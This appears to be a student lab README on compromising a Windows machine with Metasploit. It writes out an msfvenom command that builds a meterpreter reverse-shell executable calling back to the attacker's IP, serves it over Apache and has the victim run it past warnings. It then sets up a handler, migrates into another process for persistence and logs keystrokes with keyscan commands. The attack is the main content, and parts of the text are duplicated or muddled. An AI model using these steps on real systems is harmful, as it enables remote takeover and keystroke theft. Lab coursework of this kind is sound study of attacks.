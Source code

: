 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:
Step 1: Install kali linux either in partition or virtual box or in live mode
Step 2: Investigate on the various categories of tools as follows:
Step 3: Open terminal and try execute some kali linux commands

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/0dd3d067-aba5-458c-9ae0-dc8287c7228e)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/d3ccdc73-0cf7-4c28-859f-30d6912bc614)


copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/1753dc20-b629-41be-8f4f-3059ea1ccac3)


Start apache server sudo systemctl apache2 start

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/8b15cfae-eeea-45e9-8dd5-9949e1775d08)

Check the status of apache2
Invoke msfconsole: msfconsole



![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/2b781436-eea0-4609-bd43-c0a1fbd92834)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/ad4589ab-c275-4f10-a667-d3e393339177)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit css
![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/cc3b7ab2-dd6b-476c-a98b-bb2727669621)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/9a147d92-87a4-46c7-8ee7-a5df75e47463)
Bypass any warning boxes, double-click the file, and allow it to run.

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/38950493-c57d-4afb-835b-cdc946e9b0f6)

On kali give the command exploit

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/22217eab-0577-4df0-b438-fb73c13b1ca1)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/74d5af80-b9d5-4175-ab54-6014339dcb8a)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted.
![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/15d5a3da-048d-4646-a9a6-b3804542ff37)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/4d1ae16f-5053-4ab4-898e-e38e606f2b91)
keyscan_dump Shows the keystrokes captured so far.
![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/95831af7-2bb6-43da-943e-360a3bdca497)





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
